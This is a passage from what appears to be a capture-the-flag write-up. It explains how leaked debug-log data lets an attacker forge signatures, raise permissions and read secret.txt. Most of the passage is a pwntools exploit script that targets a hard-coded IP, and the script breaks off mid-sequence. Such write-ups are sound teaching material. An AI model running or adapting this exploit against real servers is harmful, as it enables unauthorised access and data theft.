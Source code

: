 ### Forging Signatures

Finally, with the cryptanalysis completed, we can leak the signatures from the server and solve for the keys, after which we will be able to forge our own signatures, set our `perms` to whatever we want, and read `secret.txt`. The exploit is a fairly straightforward affair: we enable debug mode, log in a few times with different usernames (including usernames that are 16 characters long), and pull the log file to get our leaks. This is implemented in [`exploit2.py`](files/stage2/exploit2.py):

```python
from pwn import *
import base64
import re
from hsm_test import crypt
import subprocess

context.update(arch="amd64")

s = remote('62.210.131.87', 31337)

banner = s.recvline()
log.info("* %s", banner.rstrip(b"\n").decode())

def send_cmd(cmd, msg="", reply=True):
    if isinstance(cmd, str):
        cmd = cmd.encode()
    if isinstance(msg, str):
        msg = msg.encode()
    s.sendline(cmd + b" " + msg)
    if reply:
        resp = s.recvline().rstrip(b"\n").decode()
        log.info("%s => %s", cmd.decode(), resp)
        return resp

def pasv_cmd(cmd, msg=""):
    resp = send_cmd("PASV")
    addr = resp.split("(")[1].split(")")[0].split(",")
    host = ".".join(addr[:4])
    port = int(addr[4]) * 256 + int(addr[5])
    conn2 = remote(host, port)

    if isinstance(cmd, str):
        cmd = cmd.encode()
    resp = send_cmd(cmd, msg)
    if resp == "150 Ok":
        data = conn2.recvall()
    resp = s.recvline().rstrip(b"\n").decode()
    log.info("%s => %s", cmd.decode(), resp)

    return data

PAC_MASK = 0xffff0000_00000000

# Leak data from User struct
send_cmd("USER", "anon")
send_cmd("PASS", "xxxx")
send_cmd("DBG")
send_cmd("USER", "AAAABBBBCCCCDDDD")
send_cmd("DBG") # fails, need login

send_cmd("USER", "anonymous")
send_cmd("PASS", "xxxx")
send_cmd("USER", "EEEEFFFFGGGGHHHH")
send_cmd("DBG") # fails, need login
send_cmd("USER", "anonymous")
```
